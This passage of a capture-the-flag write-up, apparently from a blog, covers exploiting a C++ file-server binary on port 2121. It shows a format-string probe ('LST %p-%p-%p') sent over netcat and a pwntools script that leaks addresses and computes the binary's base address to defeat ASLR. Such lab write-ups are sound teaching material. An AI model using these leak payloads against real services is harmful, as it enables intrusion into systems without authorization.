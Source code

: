 ![](https://github.com/dplastico/dplastico.github.io/raw/main/_posts/img/2023-07-02-15-41-43.png)

This usually indicates there are different "paths" the flow can take. Exploring the disassembly can help us to identify and try different commands since We needed to leak an address, as my regular routine with pwn challenges, if I cannot quickly perform Reverse engineering (like in this case, since the binary is in C++, this will probably taker some time), I will just try to look for something like a [format string](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/) bug, so after enumerating different commands I realize the _LST_ is vulnerable to format string, we can corroborate this by sending the command __LST %p-%p-%p__, and we'll observe hexadecimal values returned.

```
➜ nc 10.10.73.242 2121
LST %p-%p-%p
ERROR: Can not open Path: 73AA1B6E-3FEA4120-3FEA4120

```

The values above correspond to Addresses, and corroborating on the debugger, the second one is an address of the binary. We can use it to calculate the base address of the binary and defeat ASLR. At this point, we can use the following code to start interacting with the binary.


```python
#!/usr/bin/python3
from pwn import *

target = '10.10.72.141'
r = remote(target, 2121)

payload = b"LST %p-%p-%p-%p-%p"
r.sendline(payload)


r.recvuntil(b"ERROR: Can not open Path: ")
leaks = r.recvline().strip().split(b"-")
log.info(f"leaking {leaks}")
for i in range(len(leaks)):
    leaks[i] = int(leaks[i].decode(), 16)
log.info(f"binary leak = {hex(leaks[2])}")

filesrv = leaks[2] - 0x14120

log.info(f"base address = {hex(filesrv)}")
```
